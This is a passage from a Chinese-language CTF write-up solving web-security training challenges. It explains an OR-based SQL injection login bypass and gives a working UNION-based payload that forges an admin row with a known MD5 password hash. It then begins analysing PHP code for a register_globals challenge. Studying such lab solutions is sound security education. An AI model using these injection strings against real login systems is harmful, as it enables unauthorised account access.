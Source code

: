 这里的`1`可以换成其他非空字符。

因为`or`在`and`的前面，所以可以理解成`username='admin'`和
`'1' AND password='$password'` 进行**或**运算， 因此即使第二部分是**假**，整条语句也是真的。

## Training: MySQL II

从代码可以看到username password分开来验证。通常的利用方法是使用union构造已知MD5值的查询。

查询代码：

```php
$query = "SELECT * FROM users WHERE username='$username'";
```

username一栏填写`123' union select 1,'admin',md5('password');#`

构成sql语句：

```sql
SELECT * FROM users WHERE username='123' union select 1,'admin',md5('password');#'
```

由于最后有个注释符号，所以相当于：

```sql
SELECT * FROM users WHERE username='123' union select 1,'admin',md5('password');
```

这句话首先通过username=123将原语句报错。因此返回的将会是第二条语句产生的信息。

而我们union select的是直接构造了用户名为`admin`，密码为`password`的md5值。这样就可以让程序误认为我们构造的信息就是它从数据库里面提取得到的信息。

验证密码正确是通过判断： `$result['password']` 和 `$password` 是否一致。

`$result['password']`是用union构造的，因此password一栏填写`password`即可登录成功。

username填写 `123' union select 1,'admin',md5('password');#`
password填写 `password`

## Training: WWW-Basics

## Training: Register Globals

这题和[mysql I](https://www.tuziang.com/combat/1616.html)那题很类似，但是由于加了一个判断：

```php
if (strtolower($login[0]) === 'admin') {
        $chall->onChallengeSolved(GWF_Session::getUserID());
}
```

判断中的`$login[0]`在28行已经被赋值为`$_POST['username']`。

所以不能通过将username的值提交成`admin'#`来完成这题。

从32行开始，有下面这段代码：

```php
if (isset($login))
{
        echo GWF_HTML::message('Register Globals', $chall->lang('msg_welcome_back', array(htmlspecialchars($login[0]), htmlspecialchars($login[1]))));
        if (strtolower($login[0]) === 'admin') {
                $chall->onChallengeSolved(GWF_Session::getUserID());
        }
}
```
